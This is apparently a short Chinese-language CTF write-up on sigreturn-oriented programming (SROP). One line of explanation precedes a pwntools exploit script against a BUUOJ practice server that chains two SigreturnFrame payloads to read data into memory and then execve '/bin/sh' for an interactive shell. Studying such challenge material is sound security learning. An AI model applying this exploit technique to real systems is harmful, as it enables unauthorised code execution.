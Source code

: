 sigreturn系统调用放到返回地址，后面跟上Signal Frame

pwntools中SigreturnFrame()挺好使

```python
from pwn import *
r = remote('pwn.buuoj.cn', 20154)
context.arch = 'amd64'
syscall_ret = 0x400517
mov_rax_15 = 0x4004DA
sigreturn = p64(mov_rax_15) + p64(syscall_ret)
  
fuck = SigreturnFrame()
fuck.rdi = 0
fuck.rsi = 0x601000
fuck.rdx = 1000
fuck.rax = 0
fuck.rsp = 0x601050
fuck.rip = syscall_ret
payload = 'a'*0x10 + sigreturn + str(fuck)
r.sendline(payload)
  
wdnmd = SigreturnFrame()
wdnmd.rdi = 0x601000
wdnmd.rsi = 0
wdnmd.rdx = 0
wdnmd.rax = 59
wdnmd.rsp = 0x601050
wdnmd.rip = syscall_ret
payload = '/bin/sh'.ljust(0x50,'\x00')+sigreturn+str(wdnmd)
r.sendline(payload)
  
r.interactive()
```

